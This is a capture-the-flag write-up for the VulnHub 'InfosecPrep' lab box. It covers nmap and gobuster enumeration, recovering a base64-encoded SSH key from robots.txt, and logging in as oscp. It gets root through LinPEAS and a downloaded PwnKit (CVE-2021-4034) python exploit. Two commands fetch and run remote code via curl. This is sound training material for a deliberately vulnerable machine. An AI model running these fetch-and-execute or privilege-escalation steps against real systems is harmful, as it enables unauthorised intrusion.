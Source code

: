 # InfosecPrep

## Introduction

This <a href="https://www.vulnhub.com/entry/infosec-prep-oscp,508/">box</a> is meant to be an introduction to pentesting, and is designed to get players familiar with privilege escalation on outdated linux systems.

## Information

### Key Processes
The machine is hosting a wordpress website<br>
<img src="assets/page.png"><br>
and has 3 open ports :
<img src="assets/ports.png">


## Writeup

### Enumeration

#### nmap
```
sudo nmap -A -O -Pn -p- -T4 -sV 192.168.84.11
```
<img src="assets/enum.png"><br>
Browsing to port 80 takes us to the wordpress website's homepage, which has a very important information which is the username that we're going to use later. <br>

#### Getting into the machine
I tried brute forcing directories to find files or directories that could hold some pieces of information: <br>
```
gobuster -w ./wordslist2.txt -u 192.168.84.11
```
<img src="assets/gobuster.png"><br>
After checking those files, robots.txt had the clue we were looking for : <br>
<img src="assets/robots.png"><br>
<img src="assets/secret.png"><br>
At first glance, it looked like an ssh private key, so I tried to decipher the code using <a href="https://gchq.github.io/CyberChef/">Cyberchef</a> And found that it was an ssh private key base64 encrypted. <br>
```
base64 key -d > private.txt
```
After finding the private key it was time to access the machine using the username that was given to us: 
```
ssh -i private.txt oscp@192.168.84.11
```
<br> And we're finally in!<br>
<img src="assets/machine.png"><br>
It was time then to run <a href="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS">LinPEAS</a> and check for any vulnabilities that could give us root access to the machine.
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
The system seemed to be full of vulnerabilities that could be exploited to gain control of the machine, one of them was the <a href="https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034">polkit vulnerability </a>(CVE-2021-4034).

<img src="assets/info.png"><br>
Exploits written in C couldn't work since there were not any C compilers intalled on the machine, so I either had to use the binaries or get an exploit written in a language that can be compiled/interpreted on the machine and in this case python.<br>
Exploit: https://github.com/joeammond/CVE-2021-4034
```
curl https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py --output exploit.py && python3 exploit.py
```
And voila! We've finally gained control of root and can get the flag from /root
<img src="assets/root.png">
